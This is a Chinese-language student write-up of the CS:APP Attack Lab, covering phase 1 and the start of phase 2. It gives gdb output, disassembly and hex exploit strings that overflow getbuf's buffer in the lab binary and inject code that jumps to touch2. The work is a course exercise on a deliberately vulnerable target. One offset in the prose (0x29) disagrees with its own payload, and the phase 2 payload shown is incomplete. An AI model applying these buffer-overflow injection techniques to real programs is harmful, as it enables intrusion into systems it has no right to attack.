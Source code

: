 ﻿lab3 target
===========

不同于上个实验，[官网](http://csapp.cs.cmu.edu/3e/attacklab.pdf)包含 *lab 3* 各个 *phase* 的教程，做实验前请通读

phase 1
-------
这一关就是让缓冲区溢出，使函数错误地跳转到 *touch1* 
``` 
(gdb) file ctarget
(gdb) b getbuf 
(gdb) r -q
(gdb) print touch1 
$1 = {void ()} 0x4017c0 <touch1>
```
```x86asm
<+0>: sub    $0x28,%rsp
<+4>: mov    %rsp,%rdi
<+7>: callq  0x401a40 <Gets>
```
可以看到缓冲区有 *0x28* 字节，我们只需要在 *%rsp + 0x29* 处填上 *touch1* 的地址 *0x4017c0* 即可
```bash
$cat ctarget.1.txt 
00 00 00 00 00 00 00 00      
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00      /* 0x28 bytes       */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00      
c0 17 40                     /* address of touch1 */

$./hex2raw < ctarget.1.txt | ./ctarget -q
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```

phase 2
---------
*phase 2* 除了要跳转到 *touch2* ，还需要改变 *val* 值使其等于 *cookie* 
```
(gdb) print /x cookie
$1 = 0x59b997fa
(gdb) print touch2 
$2 = {void (unsigned int)} 0x4017ec <touch2>
(gdb) print $rsp
$3 = (void *) 0x5561dc78
```
所以要先 *ret* 回栈上，将 *cookie* 放在 *%rdi* ，然后再跳转到 *touch2* 
```bash
$cat injected_code.s 
movq   $0x59b997fa, %rdi     
movq   $0x4017ec, %rax
jmp    *%rax

$as injected_code.s & objdump -d a.out 
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   48 c7 c0 ec 17 40 00    mov    $0x4017ec,%rax
   e:   ff e0                   jmpq   *%rax

$cat ctarget.2.txt 
48 c7 c7 fa 97 b9 59
48 c7 c0 ec 17 40 00
ff e0
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
```